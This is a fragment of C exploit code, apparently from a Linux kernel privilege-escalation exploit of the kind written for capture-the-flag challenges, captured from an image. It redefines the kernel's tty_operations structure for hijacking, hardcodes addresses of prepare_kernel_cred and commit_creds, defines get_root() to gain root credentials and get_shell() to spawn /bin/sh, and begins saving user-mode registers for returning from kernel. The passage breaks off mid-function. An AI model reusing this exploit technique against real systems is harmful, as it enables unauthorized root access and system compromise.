 ```c

    int (*write_room)(struct tty_struct *tty);

    int (*chars_in_buffer)(struct tty_struct *tty);

    int (*ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg);

    long (*compat_ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg);

    void (*set_termios)(struct tty_struct *tty, struct ktermios *old);

    void (*throttle)(struct tty_struct *tty);

    void (*unthrottle)(struct tty_struct *tty);

    void (*stop)(struct tty_struct *tty);

    void (*start)(struct tty_struct *tty);

    void (*hangup)(struct tty_struct *tty);

    int (*break_ctl)(struct tty_struct *tty, int state);

    void (*flush_buffer)(struct tty_struct *tty);

    void (*set_ldisc)(struct tty_struct *tty);

    void (*wait_until_sent)(struct tty_struct *tty, int timeout);

    void (*send_xchar)(struct tty_struct *tty, char ch);

    int (*tiocmget)(struct tty_struct *tty);

    int (*tiocmset)(struct tty_struct *tty, unsigned int set, unsigned int clear);

    int (*resize)(struct tty_struct *tty, struct winsize *ws);

    int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);

    int (*get_icount)(struct tty_struct *tty, struct serial_icounter_struct *icount);

    const struct file_operations *proc_fops;
};

struct param {
    size_t len;
    char *buf;
    long long idx;
};
#define KERNCALL __attribute__((regparm(3)))

void *(*prepare_kernel_cred)(void *)KERNCALL =(void *) 0xffffffff810a1730;

void *(*commit_creds)(void *)KERNCALL =(void *) 0xffffffff810a1340;

void get_shell() { system("/bin/sh"); }

void get_root() { commit_creds(prepare_kernel_cred(0)); }

size_t user_cs, user_rflags, user_sp, user_ss;

void save_status() {
    __asm__("mov user_cs, cs;"
```
